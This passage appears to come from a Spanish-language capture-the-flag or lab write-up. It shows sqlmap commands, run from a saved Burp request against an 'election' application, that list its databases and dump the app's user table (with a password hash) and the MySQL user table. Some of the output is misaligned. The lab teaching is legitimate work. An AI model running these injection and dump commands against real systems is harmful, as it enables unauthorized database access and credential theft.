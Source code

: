 Vemos que tiene la misma estructura que la petición que hablaba el txt de la vulnerabilidad, por lo tanto, tiene que ser esta. Podemos hacer la prueba haciendo manual, pero en esta oportunidad vamos a utilizar `slqmap` para enumerar la información, vamos a exportar la petición de burpsuite y se la pasamos a `sqlmap`:

```
sqlmap -r SQLi --dbs --batch
```

Vamos a enumerar las bases de datos.

```
available databases [4]:                                                                                                                                          
[*] election
[*] information_schema
[*] mysql
[*] performance_schema
```
Si enumeramos **election**, no encontraremos demasiada información:
```
+----+------+---------+----------+----------------------------------+
| id | nama | level   | no_induk | password                         |
+----+------+---------+----------+----------------------------------+
| 1  | Love | 1       | 1234     | bb113886b0513a9d882e3caa5cd73314 |
+----+------+---------+----------+----------------------------------+
```

Encontramos esto, pero deben ser las credenciales para entrar al panel de election.

Asi que vamos a buscar información en **mysql**:

```
sqlmap -r SQLi -D mysql --tables --batch

+---------------------------+
| user                      |
| column_stats              |
| columns_priv              |
| db                        |
| event                     |
| func                      |
| general_log               |
| gtid_slave_pos            |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| index_stats               |
| innodb_index_stats        |
```
Encontramos muchas tablas, pero una nos llama la atención que es la **user**, vamos a ver qué contiene:

```
sudo sqlmap -r SQLi -D mysql -T user --dump --batch

------------+----------------------+-----------------------+-----------------------+------------------------+
| Host      | User    | plugin                | is_role | Password                                             Execute_priv | Process_priv | Show_db_priv | Trigger_priv | default_role | x509_subject | Shutdown_priv | max_qoutine_priv | max_user_connections | Create_tmp_table_priv | authentication_string | Create_tablespace_priv |
+-----------+---------+-----------------------+---------+-------------------------------------------------------------------+--------------+--------------+--------------+--------------+--------------+---------------+------------------+----------------------+-----------------------+-----------------------+------------------------+
```